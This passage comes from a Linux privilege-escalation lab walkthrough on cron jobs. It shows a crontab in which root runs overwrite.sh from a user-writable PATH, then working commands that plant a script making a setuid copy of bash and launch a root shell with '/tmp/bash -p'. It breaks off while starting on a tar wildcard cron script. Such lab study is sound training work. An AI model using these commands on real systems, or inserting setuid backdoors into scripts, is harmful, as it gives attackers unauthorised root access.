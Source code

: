  - Note that there are multiple commands that may be used, some may be blocked so check [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

##### Cron Paths
 - The output of the `cat /etc/crontab` command is the following:
```text
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

 - From here we can see that `overwrite.sh` is being run every minute by the `root` user. If we look at the `PATH` above, we can see that `/home/user` is the first place checked. If we check this folder, there is no `overwrite.sh` file. This means we should be able to create our own file and have it run as root.
 - We can create a malicious file to help get `root` with the following:
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
```

 - After waiting a minute or so for the cron job to run, we should have a new file `/tmp/bash`.
 - We can then run this and get a shell as `root`:
```bash
/tmp/bash -p
```

##### Cron Wildcards
 - In the above cron job output we can see the following:
```text
* * * * * root /usr/local/bin/compress.sh
```
 - The `compress.sh` program is being run every minute. Let's have a look at the contents:
```text
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```
